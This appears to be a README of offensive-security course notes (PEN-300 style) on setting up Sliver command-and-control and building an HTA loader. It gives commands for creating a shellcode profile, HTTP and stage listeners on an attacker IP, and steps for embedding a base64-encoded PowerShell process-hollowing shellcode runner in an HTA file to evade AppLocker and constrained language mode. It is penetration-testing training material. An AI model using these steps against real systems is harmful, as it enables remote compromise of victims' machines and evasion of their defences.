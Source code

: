 # Overview

# Sliver Setup
## Create profile local64 and point to port 443
`sliver > profiles new --http 192.168.200.43:80 --format shellcode local64`

## Setup main listener with google.crt / key generated with metasploit
`sliver > http -L 192.168.200.43 -l 80`

## Setup the main stager with unzip key / decryption keys 
`sliver > stage-listener --url tcp://192.168.200.43:8064 --profile local64`

# Sliver HTA Payload
the payload is specific to the Process Hollowing payload that works with the https sliver profile
Run the powershell encoder to convert the sliver.ps1 to usable format for the hta powershell code runner within hta file

## Modify the runner.xml
Modify the runner.xml and change the ip address and runner.ps1 (or .txt) which will be the shell code runner, reference the PEN-300/sliver folder for simple shell code runner .ps1 

## Encoding
The xml requires base64 encoding and placed into the runner.hta file within the powershell command to execute the mshta file. 
`PS Z:\SharedVMFolder\ToolLibrary\AppLocker-CLM\HTA\Sliver-Basic-HTA-Loader> .\HTA-powershellEncoder.ps1`
Copy and paste the output from the encoded.txt file into the runner.hta file. 
